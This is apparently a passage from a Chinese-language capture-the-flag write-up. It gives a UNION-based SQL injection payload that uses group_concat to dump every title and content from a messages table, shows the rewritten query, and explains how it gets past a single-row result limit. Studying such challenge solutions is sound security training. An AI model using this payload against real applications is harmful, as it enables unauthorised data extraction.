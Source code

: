 ### 千里挑一

构造以下 Payload：

```
' union select 1, group_concat(title, contents) from messages --
```

这个 Payload 会使 SQL 语句变为：

```sql
select title, contents from messages where id = '' 
union
select 1, group_concat(title, contents) from messages --'
```

- 第一个 `select` 由于 id 为空字符串，不会返回任何结果
- `union` 连接了第二个 `select`，它会返回所有对话的内容
- 使用 `group_concat()` 将所有记录合并成一行，这样就能绕过 `execute_query()` 只返回一条记录的限制
- 添加了第一列 `1` 是为了满足 `union` 两边列数相同的要求

执行后会获得数据库中所有对话的标题和内容，在返回的页面中搜索 `flag` 就能同时找到两题的 Flag。

## Other...

todo!()
